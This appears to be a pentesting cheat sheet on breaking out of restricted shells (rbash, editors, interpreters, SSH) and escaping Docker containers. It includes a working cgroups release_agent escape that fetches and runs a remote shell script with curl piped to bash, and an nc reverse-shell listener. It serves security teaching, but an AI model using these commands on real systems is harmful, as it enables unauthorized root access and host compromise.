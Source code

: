# Escaping Restricted Shells

## Breaking Out Of The Jail

_You can execute built-in shell commands, as well as the ones in your $PATH_

## Unix/Linux

### Enumerate

Get environment variables: 

```text
env
printenv
```

Any programs a different user: 

```text
sudo -l
```

Check current PATH: 

```text
echo $PATH
```

List contents of PATH:

```text
ls path/to/PATH
echo path/to/PATH/*
```

List export variables: 

```text
export -p
```

**Research each executable command, look for odd parameters:**

* man pages
* [GTFOBin](https://gtfobins.github.io/)
* Vulnerabilities in the command

### Writable PATH

* If PATH is writable, game on!
  * `export PATH=/usr/local/bin:/usr/bin:/bin:$PATH`

### Text Editors

* vi, vim, man, less, more

```text
:set shell=/bin/bash
:shell
# or
:!/bin/bash
```

#### nano

```text
# Control - R, Control - X
^R^X
reset; sh 1>&0 2>&0
```

#### ed 

`!'/bin/sh'`

### Common Tools

```text
# cp
cp /bin/sh /current/PATH
# ftp
ftp
ftp>!/bin/sh
# gdb
gdb
(gdb)!/bin/sh
# awk
awk 'BEGIN {system("/bin/bash")}'
# find
find / -name bleh -exec /bin/bash \;
# expect
expect
spawn sh
```

### SSH

```text
# exec commands before remote shell are loaded
ssh test@victim -t "/bin/sh"
# start ssh without loading any profile
ssh test@victim -t "bash --noprofile"
# try shellshock
ssh test@victim -t "() { :; }; /bin/bash"
```

### Scripting Languages

```text
# python
python -c 'import os;os.system("/bin/bash")'
# perl
perl -e 'exec "/bin/sh";'
# ruby
ruby -e 'exec /bin/sh'
```

### Writing To a File

```text
echo "hello world!" | tee hello.sh
echo "append to the same file" | tee -a hello.sh
```

#### Resources

[SANS](https://www.sans.org/blog/escaping-restricted-linux-shells/) [Hacking Articles](https://www.hackingarticles.in/multiple-methods-to-bypass-restricted-shell/) [Escape From SHELLcatraz](https://speakerdeck.com/knaps/escape-from-shellcatraz-breaking-out-of-restricted-unix-shells)

### rbash \(Restricted Bash\) Escape

The most simple scenario in which we can escape rbash can be the following.

Let's startup by creating a user with a rbash shell:

```text
root@ubuntu:/home# pwd
/home
root@ubuntu:/home# mkdir ruser
root@ubuntu:/home# useradd ruser -d /home/ruser -s /bin/rbash
root@ubuntu:/home# passwd ruser
New password: 
Retype new password: 
passwd: password updated successfully
root@ubuntu:/home# chown ruser:ruser /home/ruser
```

Next, we should inspect the SHELL environment variable, and we should see rbash:

```text
root@ubuntu:/home# su ruser
ruser@ubuntu:/home$ id
uid=1001(ruser) gid=1001(ruser) groups=1001(ruser)
ruser@ubuntu:/home$ export | grep SHELL
declare -rx SHELL="/bin/rbash"
```

We can see that the user is using restricted bash \(rbash\). Which restricts some commands and movement:

```text
ruser@ubuntu:/home$ pwd
/home
ruser@ubuntu:/home$ cd
rbash: cd: restricted
ruser@ubuntu:/home$ cd ..
rbash: cd: restricted
ruser@ubuntu:/home$ cd /
rbash: cd: restricted
ruser@ubuntu:/home$ cat
^C
ruser@ubuntu:/home$ touch file
touch: cannot touch 'file': Permission denied
ruser@ubuntu:/home$ makedir folder
rbash: /usr/lib/command-not-found: restricted: cannot specify `/' in command names
ruser@ubuntu:/home$ 
```

However, this can be easily bypassed by simply executing bash \(yes, literally\):

```text
ruser@ubuntu:/home$ bash
ruser@ubuntu:/home$ cd ..
ruser@ubuntu:/$ pwd
/
ruser@ubuntu:/tmp$ cd /tmp
ruser@ubuntu:/tmp$ pwd
/tmp
ruser@ubuntu:/tmp$ touch test
ruser@ubuntu:/tmp$ ls test
test
```

As we can see above, I was able to move around.

We can change the user shell with:

```text
echo <password> | su -c 'usermod -s /bin/bash <username>'
```

### cgroups Escape

[This post](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/) has a nice POC that works to execute a command on the host from a privileged container. It runs `ps`, but we can modify that to run the same reverse shell from earlier:

```text
root@gitlab:~# d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`
root@gitlab:~# mkdir -p $d/w;echo 1 >$d/w/notify_on_release
root@gitlab:~# t=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
root@gitlab:~# echo $t/c >$d/release_agent;printf '#!/bin/sh\ncurl 10.10.14.8/shell.sh | bash' >/c;
root@gitlab:~# chmod +x /c;sh -c "echo 0 >$d/w/cgroup.procs";
```

On running the last command, We can get a request for `shell.sh` at a webserver, and then a shell at a listening `nc`:

```text
username@hostname$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.220] 51066
id                                                  
uid=0(root) gid=0(root) groups=0(root)
```

### File System Escape

Instead of running commands, We could also mount the host filesystem. `lsblk` shows the devices, and `sda2` looks like the main disk:

```text
root@gitlab:/# lsblk
NAME   MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
loop1    7:1    0 71.3M  1 loop 
loop4    7:4    0 31.1M  1 loop 
loop2    7:2    0 55.5M  1 loop 
loop0    7:0    0 55.4M  1 loop 
sda      8:0    0   20G  0 disk 
|-sda2   8:2    0   18G  0 part /var/log/gitlab
|-sda3   8:3    0    2G  0 part [SWAP]
`-sda1   8:1    0    1M  0 part 
loop5    7:5    0 31.1M  1 loop 
loop3    7:3    0 71.4M  1 loop
```

We can mount it, and now we can have access to the host filesystem:

```text
root@gitlab:/# mount /dev/sda2 /mnt 
root@gitlab:/# ls /mnt/
bin  boot  cdrom  dev  etc  home  lib  lib32  lib64  libx32  lost+found  media  mnt  opt  proc  root  run  sbin  snap  srv  sys  tmp  usr  var
```

## References

* [http://netsec.ws/?p=337](http://netsec.ws/?p=337)
* [https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells](https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells)
* [https://speakerdeck.com/knaps/escape-from-shellcatraz-breaking-out-of-restricted-unix-shells](https://speakerdeck.com/knaps/escape-from-shellcatraz-breaking-out-of-restricted-unix-shells)
* [http://airnesstheman.blogspot.ca/2011/05/breaking-out-of-jail-restricted-shell.html](http://airnesstheman.blogspot.ca/2011/05/breaking-out-of-jail-restricted-shell.html)
* [http://securebean.blogspot.ca/2014/05/escaping-restricted-shell\_3.html](http://securebean.blogspot.ca/2014/05/escaping-restricted-shell_3.html)

